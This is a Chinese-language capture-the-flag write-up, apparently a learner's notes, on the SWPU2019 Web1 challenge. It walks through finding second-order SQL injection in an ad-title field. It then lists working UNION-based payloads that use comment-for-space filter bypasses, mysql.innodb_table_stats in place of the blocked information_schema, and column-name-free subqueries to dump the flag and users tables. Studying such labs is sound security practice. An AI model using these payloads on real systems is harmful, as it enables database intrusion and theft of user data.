 # [SWPU2019]Web1（学习）
![](<./img/Pasted image 20221125153820.png>)

---
首页长这样

![](<./img/Pasted image 20221125153836.png>)

---
`POST`的形式

![](<./img/Pasted image 20221125154449.png>)

---
尝试使用`admin`注册时提示该用户已被注册

![](<./img/Pasted image 20221125155037.png>)

使用用户名`aaa`和密码`123`注册并登录

![](<./img/Pasted image 20221125155328.png>)

![](<./img/Pasted image 20221125155358.png>)

![](<./img/Pasted image 20221125155509.png>)

`POST`内容

![](<./img/Pasted image 20221125155832.png>)

![](<./img/Pasted image 20221125155519.png>)

广告详情页是`/detail.php?id=xxx`的形式

![](<./img/Pasted image 20221125161128.png>)

尝试对`id`进行`sql`注入

无果QAQ

![](<./img/Pasted image 20221125161453.png>)

尝试`SSTI`

![](<./img/Pasted image 20221125161510.png>)

![](<./img/Pasted image 20221125161520.png>)

貌似对标题有效，但大括号还在，估计和`SSTI`无关，更偏向于`+`直接被过滤了，回到`sql`注入试试

当标题为`and`、`or`或`#`时会提示`标题含有敏感词汇`

![](<./img/Pasted image 20221125162659.png>)

对于payload `1'`，访问`detail.php`时发现`mysql`报错

![](<./img/Pasted image 20221125163216.png>)

确定是`sql`注入

为什么会用广告名进行`sql`查询呢QwQ

猜测后端是直接维护一张广告名和广告`id`的映射表，然后神奇地用广告名来查询广告内容了（下次记得还是用`id`查好，这样就能直接在url上注入了hiahiahia）

用`union select`检查注入点
```sql
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
麻了22个字段出题人这是要累死人（恼

![](<./img/Pasted image 20221125164232.png>)

注入点在2和3

什么，广告名都能注入的嘛，后端你查询咋写的QAQ，用来查询的字符串合着真的只有查询作用呗

---
那就拿广告名来注入叭

查看当前数据库
```sql
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
![](<./img/Pasted image 20221125164609.png>)

查看所有数据库

这里改成`where '1'='1`来补全后面的引号了
```sql
1'/**/union/**/select/**/1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/information_schema.schemata/**/where/**/'1'='1
```

![](<./img/Pasted image 20221125164918.png>)

大意了，`information`的`or`被ban了QAQ

好的接下来是学习时间（**悲**

---
![](<./img/Pasted image 20221125170222.png>)

```sql
1'/**/union/**/select/**/1,group_concat(database_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```

---
查看表格

![](<./img/Pasted image 20221125170634.png>)

```sql
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```
![](<./img/Pasted image 20221125170819.png>)

读取FLAG_TABLE内容

这波不知道字段的查询真的惊到我了，`sql`还能这么玩的嘛
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1/**/as/**/a/**/union/**/select/**/*/**/from/**/ctftraining.FLAG_TABLE)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![](<./img/Pasted image 20221125173613.png>)

被骗了.jpg

读取`users`内容
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

![](<./img/Pasted image 20221125173943.png>)

学到了学到了QwQ
